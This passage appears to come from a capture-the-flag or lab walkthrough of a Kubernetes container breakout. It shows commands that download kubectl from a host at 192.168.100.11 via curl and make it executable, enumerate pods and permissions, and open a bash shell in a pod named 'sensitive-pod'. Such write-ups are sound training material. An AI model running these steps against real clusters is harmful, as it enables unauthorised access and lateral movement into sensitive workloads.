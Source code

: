 <br/>

Then on the container, download `kubectl`:

```
cd /tmp && curl http://192.168.100.11/kubectl --output kubectl && chmod +x kubectl
```

![picture 75](images/14b0ac74718958720449e44479237a5c05156d844057999905ee6b8c2389ff1c.png)  

<br/>

Get PODs in the kubernetes cluster:

```
./kubectl get pods
```

![picture 76](images/70a7636e0a8f2c58e0b5003e0b077cd1a81a93ca23b41576e97d6ed0cb629586.png)  

<br/>

* There is an interesting pod called `sensitive-pod`.

<br/>

To enumerate the action allowed on the current container:

```
./kubectl auth can-i '*' '*' 
```

![picture 77](images/f7a396f565d5b4a5e2166da8c2971dc050b5d596d3bd245f165601cc70dc8235.png)  

* It means we can do everything in the current namespace.<br/>
(Ref: https://kubernetes.io/docs/reference/generated/kubectl/kubectl-commands)

<br/>

Hence we can access the `sensitive-pod`:

```
./kubectl exec -it sensitive-pod /bin/bash
```

![picture 78](images/dbdf85cb624317e71ed31d6a6b3c9ff22afdc5c1c197582520c2e1b5703d671a.png)  
